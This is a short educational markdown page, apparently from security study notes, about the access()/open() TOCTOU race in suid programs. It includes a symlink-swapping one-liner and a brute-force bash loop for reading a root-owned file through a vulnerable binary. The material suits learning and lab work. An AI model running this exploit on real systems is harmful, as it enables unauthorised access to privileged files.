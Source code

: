 ## Access Data Race

access() checks whether the calling process can access the file pathname.

The check is done using the calling process's real UID and GID, rather than the effective IDs.

### Recognition

When data race occur:

- vulnerable program is suid (invok other user authority when execute).

- programm execute access then open on the file.

### Exploit

As a random user you can't open root file. If you try open it throught the vulnerable program, access gonna refuse cause your real id isn't root.

But what if we create a simple file we can access to, and between the call of access and open, create a symlink between your file and the root file ?

Bingo, open() gonna open it cause suid.

:warning: this is not simple as : `touch access.txt ; ./vuln access.txt & ln -fs ~/root_file.txt access.txt`

It may failed cause it depend of speed of execution of both executable (ln & ./vuln);

I suggest creat a simple script to brut force it:

```bash
#!/bin/bash
for i in {1..100}
do
        touch access.txt
        ./vuln access.txt & ln -fs ~/root_file.txt access.txt 2>/dev/null
        rm access.txt
done
```

### Documentation

- [Man access](https://man7.org/linux/man-pages/man2/access.2.html)
- [Access exploit](https://resources.infosecinstitute.com/topic/race-condition-toctou-vulnerability-lab/)
- [Man ln](https://man7.org/linux/man-pages/man1/ln.1.html)

---

[**:arrow_right_hook: Back c**](c.md)
